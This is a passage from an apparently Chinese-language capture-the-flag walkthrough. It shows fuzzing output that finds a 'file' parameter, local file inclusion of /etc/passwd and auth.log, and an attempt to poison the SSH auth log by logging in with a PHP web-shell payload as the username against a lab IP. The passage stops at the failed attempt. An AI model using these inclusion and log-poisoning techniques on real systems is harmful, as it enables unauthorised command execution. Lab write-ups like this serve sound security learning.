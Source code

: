     000000341:   200        48 L     85 W       2832 Ch     "file"                                                                                                                                           
    
    Total time: 1.095735
    Processed Requests: 951
    Filtered Requests: 950
    Requests/sec.: 867.9099
    ```
    
    发现参数`file` ，在浏览器访问，成功包含`/etc/passwd`
    
    ![image.png](image%2086.png)
    
4. 根据提示`Change permissions for auth log` 身份认证日志的权限，尝试包含`auth.log`
    
    ![image.png](image%2087.png)
    
    成功包含，发现日志一直在更新，并且上面有`cron` ，可能存在`cron`任务
    
5. 因为可以包含`auth.log` （记录`ssh`登陆成功失败的日志），所以我们可以污染它
    
    但这里我遇到一个问题，我原本是想通过`ssh '<?php system($_GET['c']); ?>'@192.168.56.4` 来进行登录然后污染日志文件的，但是报错了：`remote username contains invalid characters`
    
    ![image.png](image%2088.png)
    